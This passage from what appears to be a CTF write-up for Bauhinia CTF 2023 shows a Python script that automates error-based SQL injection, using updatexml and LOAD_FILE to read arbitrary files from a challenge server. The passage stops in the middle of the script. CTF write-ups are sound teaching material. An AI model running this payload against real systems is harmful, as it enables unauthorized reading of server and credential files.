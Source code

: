 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bauhinia-CTF-2023/images/Pasted%20image%2020230821113708.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bauhinia-CTF-2023/images/Pasted%20image%2020230821113723.png)

We can now read arbitrary files!

**To automate the above process, I wrote a not so beautiful Python script:**
```python
#!/usr/bin/env python3
import requests
from bs4 import BeautifulSoup
import re

leakedContent = ''

def exploit(filename, position):
    global leakedContent
    filenameInHex = f'0x{filename.hex()}'
    sqlInjectionPayload = f'''1 and updatexml(null,concat(0x0a,(substring((select LOAD_FILE({filenameInHex})),{position},31))),null)-- -'''
    
    data = {
        'adds': sqlInjectionPayload,
        'f': 'shop',
        'act': 'buy',
        'temp_id': '0'
    }
    cookie = {
        'wog_cookie': '2',
        'wog_bbs_id': '1',
        'wog_cookie_debug': '22b53148583068af1f18ac2c126443f0'
    }

    errorMessage = b'mysql error: XPATH syntax error: \''
    response = requests.post(FULL_URI, data=data, cookies=cookie, stream=True)
    responseText = response.raw.read()

    if errorMessage not in responseText:
        print('[-] Exploit failed...')
        leakedContent = ''
        exit(0)

    soup = BeautifulSoup(responseText, 'html.parser')
    cleanResponseText = soup.text.strip()
    errorMessage = re.search(r'XPATH syntax error: \'\n(.+)\n?\'', cleanResponseText)
    if not errorMessage:
        leakedContent = ''
        return False

    leakedContent += errorMessage.group(1)
    return True

def checkFile(filename, position=1):
    filenameInHex = f'0x{filename.hex()}'
    sqlInjectionPayload = f'''1 and updatexml(null,concat(0x0a,(substring((select LOAD_FILE({filenameInHex})),{position},31))),null)-- -'''
    
    data = {
        'adds': sqlInjectionPayload,
        'f': 'shop',
        'act': 'buy',
        'temp_id': '0'
    }
    cookie = {
```